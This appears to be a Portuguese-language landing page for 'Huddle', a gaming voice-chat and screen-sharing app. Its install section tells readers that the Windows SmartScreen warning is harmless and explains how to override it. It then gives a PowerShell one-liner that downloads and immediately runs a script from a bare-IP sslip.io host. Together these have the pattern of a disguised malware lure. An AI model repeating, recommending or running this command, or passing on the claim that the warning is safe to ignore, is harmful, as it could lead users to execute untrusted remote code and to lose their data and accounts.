





Voz limpa e tela ao vivo
Filtro inteligente de ruído no seu microfone e no que você ouve, volume individual por pessoa e uma tecla para mutar. Várias telas ao mesmo tempo, com o som do jogo e sem eco, na resolução que você escolher.
Chamadas de voz nítidas, tela compartilhada com som e chat completo. Um app só para o seu grupo, sem anúncios e sem servidor de terceiros.

sala de jogo 4 na call chat da callFiltro inteligente de ruído no seu microfone e no que você ouve, volume individual por pessoa e uma tecla para mutar. Várias telas ao mesmo tempo, com o som do jogo e sem eco, na resolução que você escolher.
Respostas, reações, edição, menções com @, enquetes e arquivos. Áudio e vídeo tocam direto na conversa, e o chat da call fica ao lado da sala.
Mais de 6.000 jogos reconhecidos, com capa, tempo de jogo e atividade no perfil. Avatares e banners em GIF, e cargos com cor no servidor.
Chamadas por mensagem direta com música lofi enquanto toca, painel que você recolhe ou ajusta na altura, e botão de entrar para quem chega depois.



Mexa nos controles: no app, cada pessoa da call tem o próprio volume, e uma tecla muta o seu microfone na hora, mesmo com o jogo em primeiro plano.
Mudo F8
O app avisa quando sai versão nova e atualiza sozinho, sem mexer nas suas contas e preferências.
Explore e entre em servidores abertos, ou deixe o seu público quando quiser, direto nas configurações.
Fixar, silenciar, ignorar e convidar em qualquer conversa, pessoa ou servidor, na hora.
Todas as mensagens, só @menções ou nada, por servidor, com silêncio por tempo e o nome do app no aviso.
Cores, permissões por cargo e moderação de voz: silenciar, mover e desconectar quem atrapalha.
Usa pouca memória no dia a dia, sem anúncios e sem servidor de terceiros nas suas conversas.
Três passos para entrar na sala. Sem configuração complicada e sem permissão que você não precise dar.
Clique em Baixar para Windows para receber o Instalar-Huddle.exe oficial.
Abra o instalador, escolha onde salvar em Procurar... (ou mantenha a pasta sugerida) e marque seus atalhos.
O instalador baixa o app, confere os arquivos e abre o Huddle pronto para o login.

Esse aviso do SmartScreen é normal em programas independentes e novos, que ainda não têm o certificado pago da Microsoft. O arquivo é seguro.
Para continuar: clique em Mais informações e depois em Executar assim mesmo.
Abra o instalador e clique em Atualizar: ele reconhece a pasta anterior e troca só os arquivos necessários, mantendo conversas e contas.
Para desinstalar: Configurações > Aplicativos > Aplicativos instalados > Huddle.
Copie e cole este comando no PowerShell:
irm https://129-159-51-96.sslip.io/download/install.ps1 | iex
Baixe o Huddle para Windows e chame a turma agora mesmo.